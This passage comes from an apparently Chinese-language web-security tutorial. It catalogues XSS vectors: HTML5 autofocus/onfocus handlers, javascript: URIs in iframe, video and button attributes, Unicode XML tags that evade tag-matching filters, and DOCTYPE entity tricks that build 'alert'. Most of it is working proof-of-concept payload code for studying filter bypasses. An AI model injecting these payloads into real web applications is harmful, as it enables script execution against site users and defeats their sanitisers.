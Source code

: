 ```
<input onfocus=write(domain) autofocus>
<keygen onfocus=write(domain) autofocus>
<textarea onfocus=write(domain) autofocus>
<body onfocus=write(domain) autofocus>
<frameset onfocus=write(domain) autofocus>
<button onfocus=write(domain) autofocus>
<input autofocus onblur=write(domain)><input autofocus> //Chrome 中无交互执行
<iframe/src=javascript:alert(1)>
<video/poster=javascript:alert(2)>
<button form="test" formaction="javascript:alert(3)"> 
```

更多的 html5 攻击方式请见：[`html5sec.org/`](http://html5sec.org/)

XML 内容比较少，就一起写到 HTML 里了，XML 支持 Unicode，所以 Unicode 里的所有字符都可以用来做标签或者属性，同时有可能绕过<\w+匹配：

```
<啊 onclick="alert(1)" >XXX</啊> 
```

XML 相比 HTML 最严格的就是有了开始的标签，必须要有结束标签匹配，否则会报错。

但是在大多数浏览器中似乎并不会影响页面中 javascript 的解析（IE 中不执行）：

```
<html > 
<script>
alert(1); // works
</script>
<p>
<script>
alert(2); // works too 
</script>
</html> 
```

甚至可以通过 JavaScript 修改错误页面的内容（在 Firefox 中可执行）：

```
<html > 
<p>
<script>
setTimeout(function(){ document.activeElement.textContent='hello world' },1);
</script>
</html> 
```

XML 的编码规范与 HTML 非常相似，可以用 entity 编码属性值。 在 XML 中，我们可以在 DOCTYPE 中自定义 entity，甚至通过 URL 引入外部文件：

```
<!DOCTYPE xss [<!ENTITY x "&#x61;l&#x26;y;"><!ENTITY y "ert">]>
<html >
<script>&x;(document.domain);</script>
</html> 
```

上面代码定义了一个&y 变量为"ert"，&x 为"al&y"（a 与&符号编码了一下），即 alert，

